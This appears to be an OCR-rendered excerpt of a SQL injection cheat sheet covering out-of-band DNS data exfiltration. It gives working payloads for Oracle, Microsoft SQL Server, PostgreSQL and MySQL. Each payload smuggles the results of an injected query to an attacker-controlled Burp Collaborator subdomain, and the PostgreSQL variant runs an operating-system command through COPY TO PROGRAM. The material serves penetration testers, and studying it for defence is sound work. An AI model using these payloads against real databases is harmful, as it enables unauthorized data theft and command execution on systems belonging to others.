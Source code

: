 |            | SELECT ... INTO OUTFILE '\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\a'                                                                                                                                 |

## DNS lookup with data exfiltration
You can cause the database to perform a DNS lookup to an external domain containing the results of an injected query. To do this, you will need to use Burp Collaborator client to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to retrieve details of any DNS interactions, including the exfiltrated data.

| Database   | Payload                                                                                                                                                                                                                          |
|------------|----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| Oracle     | SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'\|\|(SELECT YOUR-QUERY-HERE)\|\|'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual |
| Microsoft  | declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net/a"')                                                                                        |
| PostgreSQL | create OR replace function f() returns void as $$                                                                                                                                                                                |
|            | declare c text;                                                                                                                                                                                                                  |
|            | declare p text;                                                                                                                                                                                                                  |
|            | begin                                                                                                                                                                                                                            |
|            | SELECT into p (SELECT YOUR-QUERY-HERE);                                                                                                                                                                                          |
|            | c := 'copy (SELECT '''') to program ''nslookup '\|\|p\|\|'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net''';                                                                                                                          |
|            | execute c;                                                                                                                                                                                                                       |
|            | END;                                                                                                                                                                                                                             |
|            | $$ language plpgsql security definer;                                                                                                                                                                                            |
|            | SELECT f();                                                                                                                                                                                                                      |
| MySQL      | The following technique works on Windows only:                                                                                                                                                                                   |
|            | SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\a'                                                                                                                                             |
